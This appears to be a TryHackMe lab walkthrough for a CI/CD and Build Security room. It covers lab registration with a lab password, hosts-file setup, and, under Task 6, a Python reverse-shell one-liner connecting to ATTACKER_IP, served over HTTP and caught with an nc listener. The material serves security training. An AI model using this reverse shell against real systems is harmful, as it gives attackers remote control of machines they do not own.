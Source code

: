# [CI/CD and Build Security](https://tryhackme.com/room/cicdandbuildsecurity)

* Register to **mother** from the AttackBox:
```shell
ssh mother@10.200.6.250
(password is `motherknowsbest`)

Please make a selection:
[1] Register
[2] Authenticate
[3] Exit
Selection:1
Please provide your THM username: myuser

=======================================
Thank you for checking-in with Mother for the CI/CD Network. Be careful, the are hostiles and androids about!
Please take note of the following details and please make sure to save them, as they will not be displayed again.
=======================================
Username: myuser
Password: xxxxxxxxxxxxxxxx
MailAddr: myuser@tryhackme.loc
IP Range: 10.200.6.0/24
=======================================
```
* Add hostnames:
```shell
sudo echo 10.200.6.150 gitlab.tryhackme.loc >> /etc/hosts
sudo echo 10.200.6.160 jenkins.tryhackme.loc >> /etc/hosts
```

## Task 6: Securing the Build Process

**Prepare attacker machine**

⚠️ AttackBox is suposed to be visible from **Jenkins** but sometimes it is not, so the alternative is to do it locally connected to the CI/CD VPN (see Task 2: Setting up)

* Create `shell.sh` (replacing `ATTACKER_IP`):
```shell
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
* Execute the web server in the same directory you placed `shell.sh`:
```shell
python3 -m http.server 8080
```
* Execute the listener:
```shell
nc -lvp 8081
```
